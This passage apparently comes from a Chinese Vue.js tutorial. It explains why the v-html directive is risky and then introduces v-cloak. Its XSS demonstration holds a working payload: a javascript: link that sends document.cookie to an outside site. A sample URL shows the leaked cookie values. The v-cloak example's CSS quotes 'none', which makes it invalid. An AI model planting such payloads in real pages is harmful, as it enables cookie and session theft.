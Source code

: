 * 安全性问题
  * 对于这种能将字符串解析为标签的方式来说，存在着很大的问题 
  * xss攻击：冒充用户之手，就是利用用户的cookie来盗取信息

例如：

~~~html
<body>
    
    <div id="app">
        <h1 v-html='msg'></h1>
    </div>

    <script src="../node_modules/vue/dist/vue.js"></script>
    <script>
        new Vue({
           el: '#app',
           data () {
              return {
                  msg: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>这是一段诱惑性文字，你看到一定会点我的</a>'
              }
           }
        })
    </script>
</body>
~~~

这段字符串将会被解析为a标签显示在页面上，如果用户点击了该链接，将跳转到该网站并附带上当前网站的cookie信息

1. 模拟一下，先打开浏览器的cookie工具然后写一些cookie在上面

2. 刷新是不会去除cookie的，点击该链接
3. 跳转到百度网站，发现此时的地址栏

~~~shell
https://www.baidu.com/?id=root;%20pwd=111111
~~~

4. 刚刚那个网站的cookie（刚刚自己写上去的）被作为参数传给了百度网站
5. cookie是很重要的，包含了一些用户的敏感信息
6. 所以不建议这种能直接将字符串解析为标签的方式
7. 虽然，可以在cookie信息后面将 httpOnly勾选上(这样会禁止操作cookie，只有http协议能够去修改和携带)，如果服务器不完善，没有加httpOnly给用户的敏感信息，会出现漏洞

### v-cloak

* 这个属性会在vue文件加载完，vue实例接管了容器的时候，删除掉该属性
* 为了用户在网速慢时候页面显示出未经解析的模板
* 配合css属性选择器使用

~~~html
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <style>
        [v-cloak]{
            display:'none'
        }
    </style>
</head>
<body>
    
    <div id="app">
        <h1 v-cloak>{{ msg }}</h1>
    </div>

~~~